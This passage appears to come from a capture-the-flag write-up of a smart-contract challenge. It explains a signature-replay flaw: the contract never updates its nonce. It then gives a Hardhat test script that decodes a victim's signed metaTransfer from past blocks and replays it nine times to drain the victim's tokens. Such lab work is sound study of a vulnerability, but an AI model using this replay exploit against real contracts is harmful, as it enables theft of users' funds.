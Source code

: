 The parameters passed to `metaTransfer` (and thus to `ecrecover`) are part of the transaction data, so it's possible to retrieve them.
The `nonce` is never updated, so we can reply to the same message sent by `alice` and thus update the balance of our attacker. Since `alice` has `100` tokens and `10` are already sent to our attacker address during the challenge setup, if we call (i.e. reply) the `metaTransfer` function `9` times with the same data, we will be able to drain all the `alice` tokens (each transaction will increase the `balances` of our attacker by `10` tokens).


## 3) Solution

The solution consists of the following steps:
- traverse the latest blocks until we find the block containing the transaction done by `alice` where the `metaTransfer` function is called
- extract the parameters passed to `metaTransfer` that are `sender`, `receiver`, `amount`, `v`, `r`, and `s` 
- pass these values to our exploit contract that will call `metaTransfer` for `9` times

`meta-token.challenge.js`:
```javascript

    it('Exploit', async function () {
        // YOUR EXPLOIT HERE

        let exploit = await (await ethers.getContractFactory('MetaTokenExploit', deployer)).deploy(this.token.address)

        const iface = new ethers.utils.Interface(['function metaTransfer(address sender, address receiver, uint256 amount, uint256 v, uint256 r, uint256 s)'])

        const provider = attacker.provider

        let done = false;

        // iterate over latest blocks
        for(let blockNumber = 0; blockNumber < (await provider.getBlockNumber()); blockNumber++) {
        
            // get transactions hash
            let transactions = (await provider.getBlock(blockNumber)).transactions
            
            for(const txHash of transactions) {

                try {
                    // get the tx data ...
                    let txData = (await provider.getTransaction(txHash)).data
                    
                    // ... and try to decode it
                    let {sender, receiver, amount, v, r, s} = iface.decodeFunctionData('metaTransfer', txData)

                    expect(sender).to.be.equal(alice.address)
                    expect(receiver).to.be.equal(attacker.address)
                    
                    await exploit.connect(attacker).run(sender, attacker.address, amount, v, r, s);
                    done = true;

                } catch {}
            }

            if(done) break
        }

    })
    
```